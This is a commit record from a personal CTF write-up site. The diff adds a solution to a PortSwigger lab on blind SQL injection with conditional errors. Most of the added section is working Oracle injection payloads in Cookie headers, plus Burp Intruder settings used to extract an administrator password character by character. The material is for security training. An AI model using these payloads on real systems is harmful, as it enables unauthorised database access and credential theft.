

Before and after one commit to Sirius-A/ctf-writeups, an MkDocs documentation site: the page built from docs/writeups/2023/portswigger-bscp-labs/sql-injections.md, in a window 1280 px wide and 1400 px high, scrolled down 783 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 1413 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
feat: add my solution for blind sql injection lab with error condition

````diff
--- a/docs/writeups/2023/portswigger-bscp-labs/sql-injections.md
+++ b/docs/writeups/2023/portswigger-bscp-labs/sql-injections.md
@@ -1,4 +1,4 @@
-# SQL Injection Labs for BSCP
+# SQL Injection Labs
 
 ## SQL injection attack, listing the database contents on Oracle
 
@@ -56,3 +56,44 @@ Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users W
 
 This could have been done way more efficiently by using the intruder feature of
 BurpSuite.
+
+## Blind SQL injection with conditional errors
+
+Note: This is an Oracle DB
+
+```
+GET /filter?category=Corporate+gifts HTTP/2
+Host: 0a2b00be04275c2f81ddd9e7002d006b.web-security-academy.net
+Cookie: TrackingId=oheSoImFDflJjeUv'; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
+
+# Initial Oracle test (returns result)
+Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
+
+# Crashes app
+Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
+
+
+# First Conditional test againt user table
+Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
+
+Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (password < 'm') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a;
+
+# Check PW Length
+Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (LENGTH(password) = 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
+
+# PW Fist letter check
+Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (SUBSTR(password,1,1) = 'b') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
+
+# Intruder
+Cookie: TrackingId=chiqiq7pXIgBPi6T'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=bGijkv5bYunQaUdT99YzOKk4V8XiyK8m
+```
+
+In Intruder:
+
+- Switch to clusterbomb attack type
+  - set first payload to number from 1-20 with increment 1
+  - set second payload to `a-z` and `0-9`
+- In results: filter for 500 status
+- Sort by `payload 1`
+
+![results-blind-oracle](images/results-blind-oracle.png)
````
Also changed, not shown: docs/writeups/2023/portswigger-bscp-labs/images/results-blind-oracle.png (added).
